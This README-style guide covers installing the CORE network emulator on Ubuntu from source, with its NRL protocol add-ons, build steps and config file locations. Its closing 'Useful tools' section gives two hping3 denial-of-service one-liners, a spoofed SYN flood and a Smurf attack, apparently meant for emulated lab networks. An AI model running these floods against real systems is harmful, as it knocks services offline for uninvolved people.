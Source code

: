 # CORE (Common Open Research Emulator)
## How to install and use it on Ubuntu (tested on 17.04): A fast hand-on guide <br/><br/>  

## Table of contents
- [Install CORE from source](#install-core-from-source)
- [Use CORE](#use-core)
- [Some links](#some-links)
- [Useful tools](#useful-tools)
<br/><br/>

## Install CORE from source
1. Get the source:
    - [https://github.com/coreemu/core]()

2. Install build dependencies:
    ```
    sudo apt-get install build-essential autotools-dev automake wget git gitk
    ```

3. Install network dependencies:
    ```
    sudo apt-get install quagga xorp bird isc-dhcp-server vsftpd apache2 tcpdump radvd at ucarp openvpn ipsec-tools racoon traceroute mgen wireshark tshark docker docker-compose python-docker
    ```

4. Install GUI dependencies:
    ```
    sudo apt-get install ebtables libtcl8.5 libtk-img libtk8.5 tcl8.5 tk8.5
    ```

5. Get and install core specific protocols:
    - EMANE ([https://www.nrl.navy.mil/itd/ncs/products/emane]()):
    ```
    wget https://downloads.pf.itd.nrl.navy.mil/emane/1.0.1-r1/emane-1.0.1-release-1.ubuntu-16_04.amd64.tar.gz
    tar -xvzf emane-1.0.1-release-1.ubuntu-16_04.amd64.tar.gz
    sudo dpkg -i emane-1.0.1-release-1/debs/ubuntu-16_04/amd64/*.deb
    sudo apt-get --fix-broken install
    ```

    - OLSR ([https://www.nrl.navy.mil/itd/ncs/products/olsr]()):
    ```
    wget https://downloads.pf.itd.nrl.navy.mil/olsr/nrlolsrdv7.8.1.tgz
    tar -xvzf nrlolsrdv7.8.1.tgz
    sudo apt-get install libpcap-dev
    cd nrlolsr/unix/ && make -f Makefile.linux
    sudo mv nrlolsrd /usr/bin/
    ```

    - SMF ([https://www.nrl.navy.mil/itd/ncs/products/smf]()):
    ```
    wget https://downloads.pf.itd.nrl.navy.mil/smf/src-nrlsmf-1.1b2a.tgz
    tar -xvzf src-nrlsmf-1.1b2a.tgz
    cd smf-1.1b2/unix/ && make -f Makefile.linux
    _#FIXME_
    ```

    - NHDP([https://www.nrl.navy.mil/itd/ncs/products/nhdp]()):
    ```
    wget https://downloads.pf.itd.nrl.navy.mil/nhdp/nrlnhdp-alpha-0.47.tgz
    (contains SMF and OLSR, nothing more to do here)
    ```

6. Build and install CORE:
```
./bootstrap.sh
./configure
make
sudo make install
```

7. Reload the core-daemon service (and delete old logs):
```
sudo service core-daemon stop && sudo systemctl daemon-reload && sudo rm /var/log/core-daemon.log && sudo service core-daemon start
```

8. Generate CORE documentation
```
sudo apt-get install python-sphinx texlive-latex-base
make html
make latexpdf
```
## Use CORE
Simply start core-gui and start playing :)

## Some useful information

### Configuration files
Configuration folders for core are located at:
```
/home/<username>/.core/
/etc/core/
```
Have a close look at the /etc/core/core.conf file, don't forget to back it up first !
```
sudo cp /etc/core/core.conf /etc/core/core.conf.bak
```

If you plan to use Xen virtualization support, you can configure it in
```
/etc/core/xen.conf
```

Core daemon performance alarms can be customized in
```
/etc/core/perflogserver.conf
``` 

## Some links
- Official page: [https://www.nrl.navy.mil/itd/ncs/products/core]()
- GitHub: [https://github.com/coreemu/core]()
- Documentation: [https://downloads.pf.itd.nrl.navy.mil/docs/core/core-html/index.html]()

- EMANE page: [https://www.nrl.navy.mil/itd/ncs/products/emane]()
- EMANE github: [https://github.com/adjacentlink/emane]()

Tutorials:
- Install network services: [http://www.brianlinkletter.com/core-network-emulator-install-network-services/]()
- Customize network services: [http://www.brianlinkletter.com/how-to-customize-core-network-emulator-services/]()
- CORE+docker: [http://www.finmars.co.uk/blog/9-core-and-docker-together-at-last]()

## Useful tools

### hping3
Utility to spam the network ([http://0daysecurity.com/articles/hping3_examples.html]())
#### Install

```sudo apt-get install hping3```

#### DOS Land Attack 
```hping3 -V -c PKY_CNT -d DATA_SIZE -S -w WIN_SIZE -p DEST_PORT -s SRC_PORT --flood --rand-source VICTIM_IP```
#### Smurf Attack
```hping3 -1 --flood -a VICTIM_IP BROADCAST_ADDRESS```